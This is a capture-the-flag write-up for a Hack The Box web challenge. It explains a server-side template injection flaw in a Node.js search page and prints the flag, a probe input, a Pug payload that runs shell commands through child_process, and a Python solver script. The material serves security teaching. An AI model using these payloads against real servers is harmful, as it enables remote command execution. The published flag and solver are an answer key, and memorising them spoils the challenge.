




# [__The Search__](#)

### Description:

* The Impossible Mission Force agency has set up a new website that allows users to search for available field agents. Go and check it out!

### Objective:

* Exploit a Server Side Template Injection vulnerability in the Search field to acquire the flag.

### Difficulty:

* `Easy`

### Flag:

* `HTB{SST1_by_f0rc3}`

### Release:

* [the_search.zip](release/web_the_search.zip) (`84156e7d82e19b75f5f3006a33bf194f7b8036083e5d7abde0d4ec079279a4b7`)

### Challenge:



From [server.js](challenge/server.js) we notice that the `pug` template engine is in use.
```javascript
const pug = require('pug');
```
From [Dockerfile](challenge/Dockerfile) and [entrypoint.sh](challenge/entrypoint.sh) we see that the flag is copied to the root directory and a random character sequence is appended to its name.
```bash
COPY flag /flag
FLAG=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1)
mv /flag /flag$FLAG
```

On [routes/default.route.js](challenge/routes/default.route.js), we see that user input from the search form is sanitized using backslashes and assigned to the `search` variable. Then a query is run on a MongoDB instance to search for agents.

```javascript
defaultRoutes.route('/').post( (req, res) => {
	let name = req.body.name;
	let search = name.replace(/[.*+?^${}()|[\]\\]/g, '\\$&');
	if (typeof name !== 'undefined' && name != "") {
		query = { name : {$regex: search, $options: "i"} };
		Agent.find(query,  (err, agents) => {
			if (err) {
				console.log(err);
				return res.json(err);
			} else {
				return res.render('index', { agents: agents, name: pug.render(`| ${name}`) });
			}
		});
	} else {
		return res.redirect('/');
	}
});
```
After the query completes, the data is rendered on the page using the `res.render` function.



The above code might be vulnerable to a `Server Side Template Injection` vulnerability, due to the fact that the `name` variable is used to output the search term instead of the sanitized `search` variable. To test for a SSTI, let's input `#{ 7*7 }` in the search field.



This confirms the vulnerability, as our input is executed and `49` is returned. Owing to `NodeJS` being the backend in use, we can use JavaScript code to retrieve the flag.

```javascript
#{ process.mainModule.require('child_process').execSync('cat /flag*')}
```
The Node package `child_process` is used to execute a system command and specifically `cat /flag*`. The flag is then rendered in the page.



### Solver:

```python
import requests, re

host, port = "localhost", 1337
HOST = "http://%s:%d/" % (host, port)

payload = "#{process.mainModule.require('child_process').execSync('cat /flag*').toString()}"
r = requests.post(HOST, data={"name": payload})

flag = re.search("HTB{(.*)}", r.text)
print(flag.group(0))
```
